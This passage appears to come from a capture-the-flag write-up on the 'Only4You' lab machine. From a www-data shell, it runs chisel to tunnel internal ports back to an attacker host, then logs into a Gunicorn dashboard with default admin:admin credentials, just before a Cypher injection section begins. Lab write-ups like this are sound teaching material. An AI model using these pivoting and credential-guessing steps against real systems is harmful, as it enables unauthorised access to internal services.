 ```bash
(remote) www-data@only4you:/tmp$ ./chisel client 10.10.14.16:1080 \
> R:3000:127.0.0.1:3000 \
> R:8001:127.0.0.1:8001 \
> R:7474:127.0.0.1:7474 \
> R:7687:127.0.0.1:7687

```

### Cypher Injection

The Gunicorn application on port 8001 requires credentials. Strangely, using `admin:admin` credentials allowed access and led to a dashboard.

![Gunicorn-login](./images/gunicorn-login.png)

![only4you-dashboard](./images/only4you-dashboard.png)
